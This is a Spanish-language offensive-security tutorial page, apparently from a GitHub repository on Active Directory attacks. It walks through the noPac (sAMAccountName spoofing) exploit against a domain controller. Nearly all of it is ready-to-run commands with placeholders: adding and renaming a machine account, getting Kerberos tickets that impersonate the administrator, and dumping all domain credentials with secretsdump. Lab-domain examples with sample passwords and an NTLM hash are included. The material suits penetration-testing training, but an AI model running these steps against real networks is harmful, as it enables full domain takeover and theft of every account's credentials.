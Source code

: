 # SamAccountName (nopac)

Para este ataque se va a añadir un ordenador, borrar el SPN de ese ordenador, renombrar el ordenador con el mismo nombre que el DC, obtener un TGT para ese ordenador, restablecer el nombre del ordenador a su nombre original, obtener un ticket de servicio con el TGT que obtuvimos anteriormente y finalmente dcsync :)


```
# Comprobamos que el equipo es vulnerable a nopac
poetry run crackmapexec smb <ip del DC> -u <user> -p <pass> -M nopac
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/vid.gif?raw=true "Check NoPac")

```
# Necesitamos una versión específica de impacket para los scripts renameMachine.py y getST.py
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202
git merge 1202
git merge 1224
cd ..
git clone https://github.com/dirkjanm/krbrelayx
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/vid2.gif?raw=true "Descargando herramientas necesarias")

```
# Añadimos un nuevo equipo
#~ python addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/arya.stark:Needle'
python addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> '<dominio>/<user>:<pass>'
# Borramos el SPN del equipo con el script que debemos sacar del repositorio: https://github.com/dirkjanm/krbrelayx
#~ python addspn.py --clear -t 'samaccountname$' -u 'north.sevenkingdoms.local\arya.stark' -p 'Needle' 'winterfell.north.sevenkingdoms.local'
python addspn.py --clear -t 'samaccountname$' -u '<dominio>/<user>' -p 'pass' '<nombre completo del DC en el dominio>'
# Renombrar el nuevo equipo con el nombre del DC
#~ python renameMachine.py -current-name 'samaccountname$' -new-name 'winterfell' -dc-ip 'winterfell.north.sevenkingdoms.local' north.sevenkingdoms.local/arya.stark:Needle
python renameMachine.py -current-name 'samaccountname$' -new-name '<nombre DC>' -dc-ip '<nombre completo del DC en el dominio>' <dominio>/<user>:<pass>
# Obtenemos el TGT
#~ python getTGT.py -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell':'ComputerPassword'
python getTGT.py -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>':'<pass equipo>'
# Devolvemos el nuevo equipo al nombre oriaginal
#~ python renameMachine.py -current-name 'winterfell' -new-name 'samaccountname$' north.sevenkingdoms.local/arya.stark:Needle
python renameMachine.py -current-name '<nombre DC (nuevo equipo)>' -new-name 'samaccountname$' <dominio>/<user>:<pass>
# Obtenemos el ST (service ticket) con S4U2self usando el TGT previo
#~ export KRB5CCNAME=winterfell.ccache
#~ python getST.py -self -impersonate 'administrator' -altservice 'CIFS/winterfell.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'winterfell' -debug
export KRB5CCNAME=<nombre DC (nuevo equipo)>.ccache
python getST.py -self -impersonate 'administrator' -altservice 'CIFS/<nombre completo del DC en el dominio>' -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' '>dominio>'/'<nombre DC (nuevo equipo)>' -debug
# DCSync presentando el ST
#~ export KRB5CCNAME=administrator@CIFS_winterfell.north.sevenkingdoms.local@NORTH.SEVENKINGDOMS.LOCAL.ccache
#~ python secretsdump.py -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' @'winterfell.north.sevenkingdoms.local'
export KRB5CCNAME=administrator@CIFS_<nombre completo del DC en el dominio>@<dominio completo>.ccache
python secretsdump.py -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' @'<nombre completo del DC en el dominio>'
# Eliminamos el equipo creado
#~ python addcomputer.py -computer-name 'samaccountname$' -delete -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' 'north.sevenkingdoms.local/Administrator'
python addcomputer.py -computer-name 'samaccountname$' -delete -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' '<dominio>/Administrator'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/vid3.gif?raw=true "NoPac manual")
